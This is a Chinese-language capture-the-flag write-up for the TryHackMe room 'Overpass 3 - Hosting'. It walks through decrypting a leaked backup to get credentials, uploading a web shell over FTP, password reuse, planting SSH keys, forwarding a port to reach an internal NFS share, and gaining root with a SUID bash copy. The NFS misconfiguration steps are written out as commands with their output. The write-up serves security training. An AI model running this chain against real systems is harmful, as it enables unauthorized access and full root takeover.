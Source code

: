 ```yaml
---
sidebar_position: 89
tags: [Easy, Linux, 密码学, 密码重用, NFS]
title: "Overpass 3 - Hosting"
description: "Overpass 3 - Hosting"
sidebar_label: "Overpass 3 - Hosting"
slug: /tryhackme/89
---
```

# Overpass 3 - Hosting
## 端口扫描
```bash
root@ip-10-10-152-123:~/overpass3hosting# nmap -sTCV -p 21,22,80 --min-rate 1000 10.10.253.225

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-13 07:45 BST
Nmap scan report for ip-10-10-253-225.eu-west-1.compute.internal (10.10.253.225)
Host is up (0.00018s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 de:5b:0e:b5:40:aa:43:4d:2a:83:31:14:20:77:9c:a1 (RSA)
|   256 f4:b5:a6:60:f4:d1:bf:e2:85:2e:2e:7e:5f:4c:ce:38 (ECDSA)
|_  256 29:e6:61:09:ed:8a:88:2b:55:74:f2:b7:33:ae:df:c8 (EdDSA)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: Overpass Hosting
MAC Address: 02:F1:C4:7C:A2:29 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
## 80
进行目录扫描我发现了一个 zip 文件, 并进行了查看

![20240703214823](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703214823.png)

![20240703214830](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703214830.png)

我将其解压并发现其中存在两个文件, 其中一个加密文件以及一个密钥

```bash
root@ip-10-10-152-123:~/overpass3hosting# unzip backup.zip 
Archive:  backup.zip
 extracting: CustomerDetails.xlsx.gpg  
  inflating: priv.key
root@ip-10-10-152-123:~/overpass3hosting# gpg --import priv.key 
gpg: /root/.gnupg/trustdb.gpg: trustdb created
gpg: key C9AE71AB3180BC08: public key "Paradox <paradox@overpass.thm>" imported
gpg: key C9AE71AB3180BC08: secret key imported
gpg: Total number processed: 1
gpg:               imported: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
root@ip-10-10-152-123:~/overpass3hosting# gpg --list-keys
/root/.gnupg/pubring.kbx
------------------------
pub   rsa2048 2020-11-08 [SC] [expired: 2022-11-08]
      49829BBEB100BB2692F33CD2C9AE71AB3180BC08
uid           [ expired] Paradox <paradox@overpass.thm>

root@ip-10-10-152-123:~/overpass3hosting# gpg --decrypt --output CustomerDetails.xlsx CustomerDetails.xlsx.gpg
gpg: Note: secret key 9E86A1C63FB96335 expired at Tue 08 Nov 2022 21:14:31 GMT
gpg: encrypted with 2048-bit RSA key, ID 9E86A1C63FB96335, created 2020-11-08
      "Paradox <paradox@overpass.thm>"
root@ip-10-10-152-123:~/overpass3hosting# ls
backup.zip  CustomerDetails.xlsx  CustomerDetails.xlsx.gpg  priv.key
```

解密之后得到一个 xlsx 文档, 所以我进行了查看, 并发现了三个账号密码

![20240703214851](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703214851.png)

基于此我进行了 SSH  和 FTP 的密码暴力破解, 发现其中可以使用其进行 FTP 登陆

![20240703214901](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703214901.png)

## 21 - FTP
登陆之后我发现这其实就是网站目录并且我们有共享文件, 所以我上传了 Shell

![20240703214954](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703214954.png)

## 后渗透
### apache
访问我们上传的 Shell 获取到一个会话

![20240703215105](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703215105.png)

### apache —> paradox
在上面得到的 Shell  中我发现存在一个用户名叫 paradox 所以我尝试密码重用

![20240703215131](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703215131.png)

在登陆之后, 我访问用户 paradox 家目录发现其存在 `.ssh` 所以我先其中写入我的公钥然后进行 SSH 登陆

![20240703215145](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703215145.png)

![20240703215151](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703215151.png)

### paradox —> james
在登陆之后, 查看端口占用情况发现占用了 2049 端口, 说明启动了 NFS 服务

![20240703215207](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703215207.png)

![20240703215213](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703215213.png)
接着查看 NFS 的配置文件发现其存在配置问题

![20240703215226](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703215226.png)

所以我开始进行端口转发, 来完成对于靶场的 NFS 访问

```bash
root@ip-10-10-152-123:~/overpass3hosting# ssh -L 2049:127.0.0.1:2049 paradox@10.10.166.230
Last login: Wed Sep 13 09:08:39 2023 from 10.10.152.123
[paradox@ip-10-10-166-230 ~]$

------------------------------------------------------------------------------

root@ip-10-10-152-123:~/overpass3hosting# nmap -sT -p 2049  127.0.0.1

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-13 09:13 BST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000089s latency).

PORT     STATE SERVICE
2049/tcp open  nfs
```

挂载 NFS 到本地进行查看

![20240703215240](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703215240.png)

从这里我们可以看到共享的是 James 用户家目录, 同时结合 NFS 的配置权限失误,我们的攻击目标应该是

1. 写入 SSH 公钥获取 james 用户 Shell
2. 拷贝 bash 到 james 用户家目录下并赋予特权

所以我写入了 SSH 公钥并获取到了 jame 的 Shell

![20240703215250](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703215250.png)

### james —> root
现在拷贝 bash 到用户的家目录

```bash
[james@ip-10-10-166-230 ~]$ cp /bin/bash .
[james@ip-10-10-166-230 ~]$ ls -al
total 1208
drwx------. 3 james james     124 Sep 13 09:18 .
drwxr-xr-x. 4 root  root       34 Nov  8  2020 ..
-rwxr-xr-x  1 james james 1219248 Sep 13 09:18 bash
```

在 NFS 会话中修改 bash 的所有者以及权限

```bash
root@ip-10-10-152-123:~/overpass3hosting/james# chown root bash
root@ip-10-10-152-123:~/overpass3hosting/james# chmod u+s bash
```

这时候我们的 james 用户家目录的 bash 就会变成一个 SUID 程序

```bash
[james@ip-10-10-166-230 ~]$ ls -al
total 1208
drwx------. 3 james james     124 Sep 13 09:18 .
drwxr-xr-x. 4 root  root       34 Nov  8  2020 ..
-rwsr-xr-x  1 root  james 1219248 Sep 13 09:18 bash
[james@ip-10-10-166-230 ~]$ ./bash -p
bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) groups=1000(james)
```

## 扩展
### SSH 问题

当我们获取到密码连接 paradox 的 SSH 时, 这时候我们发现我们并不能连接成功

![20240703215320](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703215320.png)

从报错结果来看对于 paradox  用户只允许使用 SSH 密钥连接